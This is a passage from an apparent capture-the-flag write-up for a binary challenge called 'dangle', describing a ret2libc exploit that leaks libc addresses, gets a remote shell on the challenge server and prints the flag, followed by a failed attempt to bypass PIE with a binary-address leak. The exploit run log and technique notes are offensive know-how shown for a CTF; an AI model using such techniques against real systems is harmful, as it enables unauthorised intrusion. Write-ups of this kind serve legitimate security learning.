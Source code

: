 Following that, we send option (4) to write to the buffer, with a padding of 8
bytes followed by the address of our ret2libc payload (16 bytes in total).

Finally when running the exploit against the server, we might encounter
problems if the version of libc doesn't correspond to the server's version.  
In such case, we download a different version and continue until it spawns a
shell.

```  
./exploit_dangle.py  
...  
[*] Loaded 197 cached gadgets for './libc6-amd64_2.36-9+deb12u3_i386.so'  
[+] Opening connection to dangle-me.knping.pl on port 30000: Done  
[*] Libc address leaked: 0x7ffa12a4aa80  
[**] Libc base address: 0x7ffa12878000

[***] system addr = 0x7ffa128c43a0  
[***] bin_sh addr = 0x7ffa12a0e031  
[***] pop_rdi addr = 0x7ffa1289f765  
[***] ret addr = 0x7ffa1289f0e2  
[*] Switching to interactive mode  
> $ id  
uid=1000 gid=1000 groups=1000  
$ ls  
flag.txt  
run  
$  
```  
**Flag**: `ping{h0w_t0_r37urn_an_array_fr0m_a_func710n_in_C++?!}`

## Bypassing PIE Mitigation  
Although we got the flag and solved the task, I had a failed-attempt that I
thought would be worth sharing.

My approach here was bypassing PIE and then leaking an address of some libc
function from GOT (perhaps with `puts`).  
With the leaked GOT address, we find the version of libc and calculate its
base address.

In order to bypass PIE, we need to leak an address from the binary's memory
mapping itself to resolve its base address. in contrast to libc for example,
where we leak a libc address to resolve libc's base address.  

If we inspect the leaked addresses a second time, we notice there is exactly a
leak from the binary's memory mapping in the 433th stack frame. Meaning we can
calculate the elf's base address.

From inspecting the binary's offsets with `objdump`, We see that the offsets
to the base address of the elf are 4 bytes.

```shell  
$ objdump -M intel -d dangle  
Disassembly of section .init:  
0000000000002000 <.init>:  
   ...

Disassembly of section .plt:  
0000000000002020 <setvbuf@plt-0x10>:  
   ...  
  
// The Disassembly continues  
```  
Then to calculate the elf's base, we remove the last 4 bytes of the leaked
address from the binary's mapping (See `leakElf()` in the exploit for further
details).
